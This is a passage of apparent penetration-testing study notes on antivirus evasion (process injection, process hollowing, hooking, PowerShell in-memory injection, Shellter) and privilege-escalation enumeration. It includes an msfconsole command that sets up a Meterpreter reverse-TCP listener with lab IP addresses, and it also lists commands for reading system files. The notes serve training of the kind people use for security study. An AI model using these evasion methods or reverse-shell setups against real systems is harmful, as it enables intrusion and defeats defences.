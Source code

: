 		Remote Process Memory Injection: it attempts to inject the payload in the memory of another valid program that is not malicious, The most common way to do this is to leverage a set of Windows APIs to execute the malicious code in a separate thread using the CreateRemoteThread API
		Reflective DLL Injection: it attempts to load a DLL stored by the attacker in the process memory. Unlike regular DLL injection (loading a DLL from disk with the LoadLibrary API), loading a DLL from process memory is not supported by any Windows API and the attackers must write their own API to do that 
		Process Hollowing: attackers first launch a non malicious process in a suspended state. Once launched, the image of this process is removed from memory and replaced with a malicious executable image. Then execution is resumed and malicious code is executed instead of the legitimate process
		Inline hooking: it involves modifying memory and introducing a hook (an instruction that redirects code execution into a function to point the execution flow to our malicious code). Upon executing of the malicious code, the flow will return back to the modified function and resume execution, appearing like only the legitimate code has been executed
Generally speaking, it is very difficult to find an universal solution to bypass AV detection. What is instead doable, is to target a specific AV product/version and focus on avoiding detection for a very specific situation/configuration
PowerShell in-memory Injection:
	A very powerful feature of PowerShell is its ability to interact with Windows APIs. This allows us to implement the in-memory injection process in a PowerShell script. It is much more difficult for AV software to flag a script as malicious, rather then a PE (portable executable), since the script is not compiled, but interpreted and can be changed on the fly at any point in time
Shellter:
	Shellter is a dynamic shellcode injection tool to inject shellcode into legitimate PEs memory space to avoid AV detection. Shellter attempts to use the existing PE"s importAddress table entries to locate functions that will be used fo the memory allocation, transfer and execution of our payload
	In case we have selected a Meterpreter_Reverse_TCP payload to be injected in a PE with Shellter and configured a listener on the attacker machine (i.e.: msfconsole -x "use exploit/multi/handler; set RHOST 10.11.0.22; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.11.0.4; exploit"), it is crucial to setup an autorun script to migrate our Meterpreter shell to a separate process immediately after session creation in case the injected PE execution completes quickly. We can setup the autorun script as follows from within msfconsole: set AutoRunScript post/windows/manage/migrate

##### Privilege Escalation Concepts
Direct-to-root compromises are rare in modern environments
There are some common vectors to privilege escalation:
	Misconfigured services
	Insufficient file permissions
	Kernel vulnerabilities
	Vulnerable software running with high privileges
Information gathering:
	Manual enumeration:
		Enumerating users (potential targets for escalation of privileges): 
			Linux: whoami, id, /etc/passwd
			Windows: whoami, net user username, net user
		Enumerating the hostname (can give clues about the function of themachine/server):
			Linux: hostname
			Windows: hostname
		Enumerating the operating system version and architecture:
			Linux: /etc/issue, /etc/*-release, uname -a
			Windows: systeminfo
		Enumerating running processes and sevices:
			Linux: ps aux
			Windows: tasklist /SVC
		Enumerating networking information:
			Linux: ifconfig a, ip a, cat /sbin/route, netstat -anp, ss -anp
			Windows: ipconfig /all, route print, netstat -ano
		Enumerating firewall status and rules:
			Linux: grep -Hs iptables /etc/*
			Windows: netsh advfirewall show currentprofile, netsh advfirewall show rule name=all
		Enumerating scheduled tasks:
			Linux: ls -lah /etc/cron*
			Windows: schtasks /quey /fo LIST /v
		Enumerating installed applications and patch levels: